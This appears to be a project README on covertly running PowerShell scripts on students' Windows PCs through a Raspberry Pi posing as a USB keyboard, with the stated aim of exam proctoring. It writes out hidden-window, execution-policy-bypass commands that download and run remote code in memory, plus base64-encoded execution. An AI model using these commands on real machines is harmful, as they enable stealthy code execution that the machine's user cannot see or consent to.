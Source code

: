 # 1. Fileless Execution

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

Using the Raspberry Pi Zero W, HID mode, keystroke can be sent to execute "Run". Following which, additional keystrokes command can be sent from the examples below to conduct proctoring.  

With the Fileless Execution method, we do not need to copy any external binary executable/scripts to be able to conduct proctoring. Instead we utilize a Windows built-in software Powershell, to download additional scripts and run them purely in memory. 

Reference materials:
- https://www.mcafee.com/enterprise/en-us/assets/solution-briefs/sb-fileless-malware-execution.pdf
- https://www.varonis.com/blog/fileless-malware
- https://www.linkedin.com/pulse/go-hell-powershell-powerdown-attacks-kirtar-oza-cissp-cisa-ms-

## 1.1. Utilizing DownloadString and Invoke-Expression Parameters
```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('<proctoring script url>')
```
Executing the above allow us conduct proctoring directly in to the memory of the Student's PC.  
This is possible because of two Powershell command 
- "DownloadString" where it does not download any file to disk but copies content of the remote file. 
- "Invoke-Expression a.k.a iex" where it runs specified string as a command.

## 1.2. Utilizing EncodedCommand Parameters
To do this we must first, encode our script into base64 using the script below and taking note of the encoded string
```
$command = '<the whole script>'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
write-host $encodedCommand
```
After we know the encoded string, runnning the command below will allow us to conduct proctoring without needing to drop any files into the student's PC. In this case, we would not even need to have a remote script stored anywhere.
```
powershell.exe -executionpolicy bypass -w hidden -e <base64encodedstring>
```
The EncodedCommand a.k.a -e, will read the following given as a base64 string and proceed to execute it 

## 1.3 Additional Parameters
- WindowStyle (-w) hidden: This makes the Powershell operation stealth by hiding the program window away from the user
- Exec Bypass: bypass/ignore the execution policy like _Restricted_ which restricts the PS command from running
- Noprofile (-nop): Ignore the commands in the Profile file

## Pros:
- Not intrusive, no file will be downloaded and placed in the student's PC 
- Students have no access to the proctoring script at all 
- Execute in the background hidden
- When updating the proctoring script, proctors can just re-host the newest version on the remote server

## Cons:
- Proctoring Script have to be written in powershell language
- A remote server to serve the proctoring script from method 1.1
- For method 1.2, if there is any update on the proctoring script, encodedstring have to be reformed and HID keystroke commands have to be editted too on every single raspberry pi

# 2. Mass Storage 

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

In this method we utilize the Mass storage mode and HID mode of the composite Pi.  
1. We will be placing in the backing store (storage) created in the Pi. 
2. Once the Pi is connected, the emulated mass storage will be visible.
3. Inside the storage device, the proctoring script will then be present.
4. From there, we can send in keystrokes using the HID mode to execute the script from Windows built in programs (such as cmd.exe or powershell.exe) inside the emulated mass storage device in the Student's PC

## Pros:
- Not much pros

## Cons:
- Script is accessible to students which will allow them to study it and possbily find ways to avoid detection
- In the event of proctoring script updating, every Pi have to be updated manually
